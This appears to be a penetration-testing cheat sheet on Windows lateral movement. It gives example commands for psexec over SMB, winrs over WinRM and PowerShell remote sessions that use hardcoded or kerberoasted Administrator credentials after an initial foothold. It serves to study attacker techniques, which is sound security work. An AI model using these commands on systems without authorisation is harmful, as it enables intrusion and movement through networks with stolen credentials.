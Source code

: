 ### Psexec
Allows remote process excecution trough port 445 (SMB)
``` bash
#Target Machine after foothold for lateral movement
psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe
```
### Remote Process Creation Using WinRM
Used to send Powershell commands to Windows hosts remotely. 
``` bash
winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
```
Same with powershell
``` powershell
#create a PSCredential object:
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

#Once we have our PSCredential object, we can create an interactive session using the Enter-PSSession cmdlet:
Enter-PSSession -Computername TARGET -Credential $credential
```
### PSCredential Object
``` powershell
#ex when you have creds from kerberoasting
#Create object
$user = "<DOMAIN>\<USER>"  
$Password = ConvertTo-SecureString "<PASSWD>" -AsPlainText -Force  
$credentials = New-Object System.Management.Automation.PSCredential ($user, $Password)
#Login as user
Enter-PSSession -ComputerName "<MACHINE>.<DOMAIN>.local" -Credential $credentials
```